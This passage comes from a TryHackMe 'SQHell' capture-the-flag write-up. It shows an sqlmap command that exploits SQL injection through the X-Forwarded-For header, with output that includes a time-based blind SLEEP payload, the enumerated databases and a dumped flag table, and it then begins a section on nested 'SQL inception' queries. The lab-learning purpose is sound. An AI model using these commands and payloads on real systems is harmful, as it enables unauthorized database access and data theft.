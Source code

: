 Additionally, the **sqlmap** can solve this by appending the flag `--header` as following:

```
┌──(kali㉿kali)-[~/TryHackMe/sqhell]
└─$ sqlmap -u http://sqhell.thm/ --header="X-forwarded-for:1*" --dbs --dump-all --batch
[...]
sqlmap identified the following injection point(s) with a total of 74 HTTP(s) requests:
---
Parameter: X-forwarded-for #1* ((custom) HEADER)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: 1' AND (SELECT 2846 FROM (SELECT(SLEEP(5)))coCQ) AND 'hCxe'='hCxe
---
[...]
available databases [2]:
[*] information_schema
[*] sqhell_1
[...]
Database: sqhell_1
Table: flag
[1 entry]
+----+---------------------------------------------+
| id | flag                                        |
+----+---------------------------------------------+
| 1  | THM{FLAG2:[REDACTED]} |
+----+---------------------------------------------+
```

### Flag 4

The **FLAG 4** could be found using the **SQL Inception** technique which means _query in query_.

Let’s get back to the path `/user?id=1`:

![Untitled](/assets/SQHell%20images/Untitled%208.png)
